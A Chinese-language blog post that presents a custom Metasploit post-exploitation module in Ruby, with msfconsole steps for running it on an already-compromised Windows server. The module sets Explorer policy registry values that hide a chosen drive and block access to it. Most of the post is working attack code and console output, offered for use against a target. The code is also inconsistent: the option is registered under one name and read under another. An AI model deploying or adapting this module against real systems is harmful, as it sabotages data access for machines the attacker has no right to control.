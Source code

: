 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit自定义让磁盘失效的后渗透模块
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit自定义让磁盘失效的后渗透模块
lock: need
---
```


# Metasploit自定义让磁盘失效的后渗透模块

一个可以禁用Windows 操作系统上的指定硬盘的程序，这里我们将脚本命名为：disable_drives_by_binghe.rb。

具体内容如下：

```
##
# Author 冰河
# Date 2019-01-12
# Description 禁用Windows操作系统上的指定硬盘的程序
##

require 'msf/core'
require 'rex'
require 'msf/core/post/windows/registry'

class Metasploit3 < Msf::Post
  include Msf::Post::Windows::Registry
  
  def initialize
    super(
        'Name'        => 'Driver Disabler',
        'Description' => 'This Modules Hides and Restrict Access to a Drive',
        'Author'      => 'binghe',
        'License'     => MSF_LICENSE
    )
    register_options(
    [
      OptString.new('DriverName', [true, 'Please SET the Drive Letter'])
    ], self.class)
    end
   
   def run
    drive_int = drive_string(datastore['DriveName'])
    key1 = "HKLM\\SoftWare\\Microsoft\\WIndows\\CurrentVersion\\Policies\\Explorer"
    exists = meterpreter_registry_key_exist?(key1)
    if not exists
      print_good("Hidden Drive") 
      meterpreter_registry_setvaldata(key1, 'NoDrives', drive_int.to_s, 'REG_DWORD', REGISTRY_VIEW_NATIVE)
      print_good("Restricting Access to the Drive")
      meterpreter_registry_setvaldata(key1, 'NoViewOnDrives', drive_int.to_s, 'REG_DWORD',REGISTRY_VIEW_NATIVE)
    else
      print_good("Key Exist, Skipping and Creating Values")
      print_good("Hiding Drive")
      meterpreter_registry_setvaldata(key1, 'NoDrives', drive_int.to_s, 'REG_DWORD', REGISTRY_VIEW_NATIVE)
      print_good("Restricting Access to the Drive")
      meterpreter_registry_setvaldata(key1, 'NoViewOnDrives', drive_int.to_s, 'REG_DWORD',REGISTRY_VIEW_NATIVE)
     end
     print_good("Disabled #{datastore['DriveName']} Drive") 
    end
    
   def drive_string(drive)
    case drive
      when 'A'
        return 1
      when 'B'
        return 2
      when 'C'
        return 4
      when 'D'
        return 8
      when 'E'
        return 16
       end
    end 
end
```

**注意：使用此脚本的前提是我们已经经过一系列的渗透拿到了目标Windows服务器的System权限。**

接下来我们将脚本传到Kali的/usr/share/metasploit-framework/modules/post/windows/manage目录下，此时，我们在Kali下操作：

```
msfconsole
msf auxiliary(scanner/ssh/ssh_brute_by_binghe) > use post/windows/manage/disable_drives_by_binghe 
msf post(windows/manage/disable_drives_by_binghe) > show options

Module options (post/windows/manage/disable_drives_by_binghe):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   DriverName                   yes       Please SET the Drive Letter
   SESSION                      yes       The session to run this module on.

msf post(windows/manage/disable_drives_by_binghe) > set DriverName D
DriverName => D
msf post(windows/manage/disable_drives_by_binghe) > run
```

此时，查看目标服务器的D盘确实被成功禁用了。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)